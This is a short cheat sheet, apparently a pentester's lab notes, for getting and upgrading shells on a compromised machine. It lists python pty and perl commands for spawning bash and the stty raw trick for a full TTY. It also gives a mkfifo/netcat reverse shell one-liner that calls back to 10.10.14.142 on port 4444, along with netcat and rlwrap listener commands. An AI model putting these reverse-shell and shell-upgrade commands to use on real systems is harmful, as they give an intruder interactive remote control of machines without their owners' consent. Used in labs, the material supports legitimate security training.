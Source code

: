for Bash:  
```  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
```  
- python3  
```  
python -c 'import pty; pty.spawn("/bin/bash")'   
```  
- python  
if no bash, press ctrl-z, which suspends terminal. type this into normal terminal:  
```  
stty raw -echo; fg  
```  
- press enter twice  
-   
sometimes just `/bin/bash` or `/bin/sh`could work  
  
```  
echo os.system('/bin/bash')  
```  
  
```  
perl -e 'exec "/bin/bash";'  
```  
- if perl is installed  
  
t/s above commands:  
```  
echo $0  
```  
- see what shell im in  
```  
which python  
```  
- see if python exists  
```  
which python3  
```  
- see if python3 exists  
  
if shell is non-interactive (can run commands but cant cd) and get `No input file specified` response when trying above commands and/or shell says something like `Can't acces tty; job crontol turned off` initially, try another reverse shell  
```  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.142 4444 >/tmp/f  
```  
- listener `nc -lvnp 4444`  
  
to fix `nc` shell:  
```  
export SHELL=/bin/bash   
```  
  
```  
export TERM=xterm-256color   
```  
  
```  
stty rows 24 columns 80  
```  
  
For windows, start listener with rlwrap:  
```  
rlwrap -cAr nc -lnvp 443  
```  